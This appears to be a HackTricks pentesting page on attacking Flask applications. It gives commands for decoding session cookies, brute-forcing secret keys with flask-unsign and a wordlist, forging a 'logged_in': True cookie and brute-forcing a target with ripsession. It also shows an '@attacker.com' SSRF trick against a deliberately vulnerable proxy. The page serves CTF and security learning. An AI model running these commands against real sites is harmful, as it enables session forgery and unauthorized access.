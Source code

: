 # Flask

{{#include ../../banners/hacktricks-training.md}}

**Probably if you are playing a CTF a Flask application will be related to** [**SSTI**](../../pentesting-web/ssti-server-side-template-injection/)**.**

## Cookies

Default cookie session name is **`session`**.

### Decoder

Online Flask coockies decoder: [https://www.kirsle.net/wizards/flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)

#### Manual

Get the first part of the cookie until the first point and Base64 decode it>

```bash
echo "ImhlbGxvIg" | base64 -d
```

The cookie is also signed using a password

### **Flask-Unsign**

Command line tool to fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys.

{% embed url="https://pypi.org/project/flask-unsign/" %}

```bash
pip3 install flask-unsign
```

#### **Decode Cookie**

```bash
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
```

#### **Brute Force**

```bash
flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie '<cookie>' --no-literal-eval
```

#### **Signing**

```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
```

#### Signing using legacy (old versions)

```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME' --legacy
```

### **RIPsession**

Command line tool to brute-force websites using cookies crafted with flask-unsign.

{% embed url="https://github.com/Tagvi/ripsession" %}

```bash
  ripsession -u 10.10.11.100 -c "{'logged_in': True, 'username': 'changeMe'}" -s password123 -f "user doesn't exist" -w wordlist.txt
```

### SQLi in Flask session cookie with SQLmap

[**This example**](../../pentesting-web/sql-injection/sqlmap/#eval) uses sqlmap `eval` option to **automatically sign sqlmap payloads** for flask using a known secret.

## Flask Proxy to SSRF

[**In this writeup**](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies) it's explained how Flask allows a request starting with the charcter "@":

```http
GET @/ HTTP/1.1
Host: target.com
Connection: close
```

Which in the following scenario:

```python
from flask import Flask
from requests import get

app = Flask('__main__')
SITE_NAME = 'https://google.com/'

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def proxy(path):
  return get(f'{SITE_NAME}{path}').content

app.run(host='0.0.0.0', port=8080)
```

Could allow to introduce something like "@attacker.com" in order to cause a **SSRF**.

{{#include ../../banners/hacktricks-training.md}}




